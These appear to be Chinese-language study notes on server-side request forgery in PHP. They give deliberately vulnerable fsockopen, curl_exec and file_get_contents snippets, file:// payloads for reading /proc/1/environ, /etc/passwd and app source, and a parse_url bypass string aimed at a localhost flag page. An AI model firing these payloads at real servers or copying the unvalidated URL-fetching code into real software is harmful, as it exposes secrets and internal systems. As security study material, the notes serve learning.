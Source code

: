 ssrf

服务端请求伪造

[TOC]



##### fsockopen()

```
fsockopen()

fsockopen(h o s t n a m e , hostname,hostname,port,e r r n o , errno,errno,errstr,$timeout)
```

用于打开一个网络连接或者一个Unix 套接字连接，初始化一个套接字连接到指定主机（hostname），实现对用户指定url数据的获取。该函数会使用socket跟服务器建立tcp连接，进行传输原始数据。 fsockopen()将返回一个文件句柄，之后可以被其他文件类函数调用（例如：fgets()，fgetss()，fwrite()，fclose()还有feof()）。如果调用失败，将返回false

```
<?php
$host=$_GET['url'];
$fp = fsockopen($host, 80, $errno, $errstr, 30);
if (!$fp) {
    echo "$errstr ($errno)<br />\n";
} else {
    $out = "GET / HTTP/1.1\r\n";
    $out .= "Host: $host\r\n";
    $out .= "Connection: Close\r\n\r\n";
    fwrite($fp, $out);
    while (!feof($fp)) {
        echo fgets($fp, 128);
    }
    fclose($fp);
}
?>
```

###### curl_exec()

```
<?php 
$url=$_POST['url']; 
$ch=curl_init($url);  //创造一个curl资源
curl_setopt($ch, CURLOPT_HEADER, 0); //设置url和相应的选项
curl_setopt($ch, CURLOPT_RETURNTRANSFER, 1); 
$result=curl_exec($ch); // 抓取url并将其传递给浏览器
curl_close($ch); //关闭curl资源
echo ($result); 
?>


```

**file_get_contents()/readfile()**

```
<?php
$url = $_GET['url'];;
echo file_get_contents($url);
?>
```

###### 先读读这些

```
file:///start.sh

file:///proc/1/environ

file:///app/app.py
```

```
1 /etc/passwd用来判断读取漏洞的存在
2 /etc/environment
3 是环境变量配置文件之一。环境变量可能存在大量目录信息的泄露，甚至可能出现secret key泄露的情况。
4 /etc/hostname/etc/hostname
5 表示主机名。
6 /etc/issue
7 指明系统版本。
8 /proc目录
9 /proc/[pid] 查看进程
10 /proc/self 查看当前进程
11 /proc/self/cmdline 当前进程对应的终端命令
12 /proc/self/pwd程序运行目录
13 /proc/self/环境变量
14 /sys/class/net/eth0/address mac地址保存位置
```

###### parse_url   & curl

url=http://a:@127.0.0.1:80@baidu.com/flag.php，

[----已搬运----【总章程】SSRF完全学习，，什么都有，，，原理，绕过，攻击_python ssrf漏洞读取文件绕过file-CSDN博客](https://blog.csdn.net/Zero_Adam/article/details/117728234?ops_request_misc=&request_id=&biz_id=102&utm_term=[第二章 web进阶]SSRF Training&utm_medium=distribute.pc_search_result.none-task-blog-2~all~sobaiduweb~default-6-117728234.142^v99^pc_search_result_base1&spm=1018.2226.3001.4187)